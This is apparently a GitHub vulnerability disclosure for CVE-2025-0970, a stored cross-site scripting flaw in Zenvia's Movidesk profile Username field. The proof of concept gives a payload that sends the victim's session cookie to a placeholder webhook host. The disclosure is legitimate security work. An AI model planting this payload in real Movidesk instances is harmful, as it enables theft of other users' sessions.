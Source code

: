 # CVE-2025-0970
The Movidesk System by Zenvia is vulnerable to Stored Cross Site Scripting.

### Affected Version
< 25.01.22
---
## POC

This vulnerability resides in the /Account/EditProfile page in Username parameter,
Its possible to manipulate the parameter to insert any JavaScript code to the victim browser.

Payload example: `<img src onerror="this.src='http://YOUR-WEBHOOK-SITE?c='+document.cookie">`
Endpoint where the XSS is triggered (ticket view): `https://IP/Ticket`

https://IP/Account/EditProfile


### Detail

FOR THIS EXPLOIT, YOU HAVE TO BE AUTHENTICATED!

## Reference

https://www.movidesk.com/
